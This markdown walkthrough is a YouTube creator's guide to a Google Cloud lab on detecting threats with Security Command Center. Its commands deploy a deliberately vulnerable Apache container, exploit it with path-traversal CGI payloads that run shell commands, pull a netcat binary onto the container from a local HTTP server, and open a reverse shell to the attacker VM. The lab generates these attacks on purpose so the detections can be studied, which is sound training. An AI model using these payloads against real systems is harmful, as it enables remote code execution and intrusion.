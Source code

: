 
# Detect and Investigate Threats with Security Command Center [GSP1125]

# If you consider that the video helped you to complete your lab, so please do like and subscribe [Techcps](https://www.youtube.com/@techcps)

* In the GCP Console open the Cloud Shell and enter the following commands:

```
export ZONE=
```
## Note: Go to "IAM & Admin" > "Audit Logs".
* Click the findbar and type: "Cloud Resource Manager API"

* Click the checkbox on "Cloud Resource Manager API" and select "Admin Read" then click save button.

```
gcloud services enable securitycenter.googleapis.com --project=$DEVSHELL_PROJECT_ID
sleep 17
gcloud projects add-iam-policy-binding $DEVSHELL_PROJECT_ID \
--member=user:demouser1@gmail.com --role=roles/bigquery.admin
gcloud projects remove-iam-policy-binding $DEVSHELL_PROJECT_ID \
--member=user:demouser1@gmail.com --role=roles/bigquery.admin
export PROJECT_NUMBER=$(gcloud projects describe $DEVSHELL_PROJECT_ID --format="value(projectNumber)")
gcloud projects add-iam-policy-binding $DEVSHELL_PROJECT_ID \
--member=user:$USER_EMAIL \
--role=roles/cloudresourcemanager.projectIamAdmin

gcloud compute instances create instance-1 --project=$DEVSHELL_PROJECT_ID --zone=$ZONE --machine-type=e2-medium --network-interface=network-tier=PREMIUM,stack-type=IPV4_ONLY,subnet=default --metadata=enable-oslogin=true --maintenance-policy=MIGRATE --provisioning-model=STANDARD --scopes=https://www.googleapis.com/auth/cloud-platform --create-disk=auto-delete=yes,boot=yes,device-name=instance-1,image=projects/debian-cloud/global/images/debian-11-bullseye-v20230912,mode=rw,size=10,type=projects/$DEVSHELL_PROJECT_ID/zones/$ZONE/diskTypes/pd-balanced --no-shielded-secure-boot --shielded-vtpm --shielded-integrity-monitoring --labels=goog-ec-src=vm_add-gcloud --reservation-affinity=any
```

```
gcloud dns --project=$DEVSHELL_PROJECT_ID policies create dns-test-policy --description=subscribe to techcps and if you're cricketlover then follow cricketcps on social media pletform" --networks="default" --alternative-name-servers="" --private-alternative-name-servers="" --no-enable-inbound-forwarding --enable-logging

gcloud compute ssh --zone "$ZONE" "instance-1" --tunnel-through-iap --project "$DEVSHELL_PROJECT_ID" --quiet --command "gcloud projects get-iam-policy \$(gcloud config get project) && curl etd-malware-trigger.goog"
```
## Note: Check the progress on task 1 & 2
* Do not move until you get score on tast 1 & 2

```
gcloud compute instances delete instance-1 --zone=$ZONE --quiet

gcloud compute instances create attacker-instance \
--scopes=cloud-platform \
--zone=$ZONE \
--machine-type=e2-medium \
--image-family=ubuntu-2004-lts \
--image-project=ubuntu-os-cloud \
--no-address

gcloud compute networks subnets update default \
--region="${ZONE%-*}" \
--enable-private-ip-google-access
```

## Note: Go to "Compute Engine" > "VM Instances"
* Click the SSH button on attacker-instance

```
export ZONE=
```

```
sudo snap remove google-cloud-cli
curl -O https://dl.google.com/dl/cloudsdk/channels/rapid/downloads/google-cloud-cli-438.0.0-linux-x86_64.tar.gz
tar -xf google-cloud-cli-438.0.0-linux-x86_64.tar.gz
./google-cloud-sdk/install.sh
```

```
. ~/.bashrc
gcloud components install kubectl gke-gcloud-auth-plugin --quiet
gcloud container clusters create test-cluster \
--zone "$ZONE" \
--enable-private-nodes \
--enable-private-endpoint \
--enable-ip-alias \
--num-nodes=1 \
--master-ipv4-cidr "172.16.0.0/28" \
--enable-master-authorized-networks \
--master-authorized-networks "10.128.0.0/20"
```

```
kubectl describe daemonsets container-watcher -n kube-system
```

## Note: This command will take a few minutes to display the output
* IF you didn't get a output then re-run the same command again and again until you get output

* After Getting a Output run the following Command

```
kubectl create deployment apache-deployment \
--replicas=1 \
--image=us-central1-docker.pkg.dev/cloud-training-prod-bucket/scc-labs/ktd-test-httpd:2.4.49-vulnerable

kubectl expose deployment apache-deployment \
--name apache-test-service  \
--type NodePort \
--protocol TCP \
--port 80

NODE_IP=$(kubectl get nodes -o jsonpath={.items[0].status.addresses[0].address})
NODE_PORT=$(kubectl get service apache-test-service \
-o jsonpath={.spec.ports[0].nodePort})

gcloud compute firewall-rules create apache-test-service-fw \
--allow tcp:${NODE_PORT}

gcloud compute firewall-rules create apache-test-rvrs-cnnct-fw --allow tcp:8888
```
```
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; id"

curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; ls -l /"

curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; hostname"

gsutil cp \
gs://cloud-training/gsp1125/netcat-traditional_1.10-41.1_amd64.deb .
mkdir netcat-traditional
dpkg --extract netcat-traditional_1.10-41.1_amd64.deb netcat-traditional

LOCAL_IP=$(ip -4 addr show ens4 | grep -oP '(?<=inet\s)\d+(\.\d+){3}')
echo ${LOCAL_IP}

python3 -m http.server --bind ${LOCAL_IP} \
--directory ~/netcat-traditional/bin/ 8888 &
```

```
curl http://${LOCAL_IP}:8888

curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" --path-as-is --insecure --data "echo Content-Type: text/plain; echo; curl http://${LOCAL_IP}:8888/nc.traditional -o /tmp/nc"

curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; chmod +x /tmp/nc"

```

```
pkill python
```

```
lsof -i -sTCP:LISTEN

curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; /tmp/nc"
```

## Note: Open the new terminal

```
nc -nlvp 8888
```

## Note: Go back first terminal

```
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" --path-as-is --insecure --data "echo Content-Type: text/plain; echo; /tmp/nc ${LOCAL_IP} 8888 -e /bin/bash"
```

## Note: Go back to second terminal

```
ls -l /
```

# Congratulations, you're all done with the lab 😄

# Thanks for watching :)

